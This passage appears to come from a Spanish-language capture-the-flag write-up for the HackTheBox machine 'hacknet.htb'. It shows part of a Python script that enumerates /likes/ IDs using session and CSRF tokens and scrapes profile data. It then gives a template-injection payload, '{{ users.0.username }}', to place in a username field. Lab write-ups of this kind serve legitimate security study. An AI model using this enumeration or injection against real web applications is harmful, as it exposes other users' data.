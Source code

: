 ```python
    for i in range(101):  # 0 to 100
        try:
            response = requests.get(f"{target}/likes/{i}", headers=headers, timeout=3, verify=False)
            
            if response.status_code == 200 and '/profile/<ID_USER>' in response.text:
                # Extraer el título específico del perfil 37
                match = re.search(
                    r'<div class="likes-review-item"><a href="/profile/37"><img src="[^"]+" title="([^"]+)"></a></div>',
                    response.text
                )
                if match:
                    title = match.group(1)
                    print(f"✅ ENCONTRADO: /likes/{i} -> /profile/37 - title=\"{title}\"")
                    
        except Exception as e:
            print(f"[-] Error en /likes/{i}: {e}")

if __name__ == "__main__":
    target = "http://hacknet.htb"
    csrf_token = "<CSRF_TOKEN>"
    session_id = "<SESSION_ID>"
    
    print("🔍 Buscador específico del perfil /profile/37")
    print("=" * 50)
    
    # Opción 1: Escaneo completo (ambos endpoints)
    results = scan_for_profile_37(target, csrf_token, session_id, max_id=100)
    
    print(f"\n{'='*50}")
    print("BÚSQUEDA RÁPIDA ADICIONAL:")
    print('='*50)
    
    # Opción 2: Búsqueda rápida adicional
    quick_scan_profile_37(target, csrf_token, session_id)
    
    print(f"\n🎯 Búsqueda completada. Total de apariciones del perfil 37: {len(results)}")
```

Vamos a probar primero con el primer `payload` de nombre de usuario.

> payload (username)

```
{{ users.0.username }}
```

Ahora ejecutamos la herramienta asi:

```shell
python3 fuzzIDs.py
```
